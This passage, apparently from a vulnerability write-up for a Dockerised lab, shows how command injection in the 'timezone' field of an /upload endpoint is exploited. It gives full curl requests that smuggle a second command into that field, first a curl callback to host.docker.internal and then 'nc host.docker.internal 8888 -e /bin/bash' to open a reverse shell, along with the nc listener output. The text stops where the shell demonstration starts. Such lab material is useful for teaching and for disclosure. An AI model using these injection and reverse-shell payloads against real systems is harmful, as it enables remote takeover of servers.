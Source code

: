 ```yaml
    extra_hosts:
      - "host.docker.internal:host-gateway"
    environment:
      - LTHOSTNAME=localhost
    depends_on:
      - neo4j
```

Now, the test looks as:

```bash
curl -v -X POST http://localhost:8080/upload \
-H "Host: localhost" \
-H "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ar; rv:1.9.2) Gecko/20100115 Firefox/3.6" \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Accept-Encoding: gzip" \
--data-urlencode "logtype=XML" \
--data-urlencode "timezone=1;curl -H \"test:1\" http://host.docker.internal:8888;" 
```

and listening `nc` displays:

```bash
nc -lvp 8888
Listening on 0.0.0.0 8888
Connection received on 172.22.0.3 52396
GET / HTTP/1.1
Host: host.docker.internal:8888
User-Agent: curl/7.61.0
Accept: */*
test:1
```


### Get shell

For that test, we use `host.docker.internal` url. 

We get reverse shell with

```bash
curl -v -X POST http://localhost:8080/upload \
-H "Host: localhost" \
-H "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ar; rv:1.9.2) Gecko/20100115 Firefox/3.6" \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Accept-Encoding: gzip" \
--data-urlencode "logtype=XML" \
--data-urlencode "timezone=1;nc host.docker.internal 8888 -e /bin/bash;" 
```

The payload is `nc host.docker.internal 8888 -e /bin/bash;` which runs `/bin/bash` after connection is established from the docker to the listening `nc`.

The listening `nc` gets the connection and we use the shell to run `ls`:
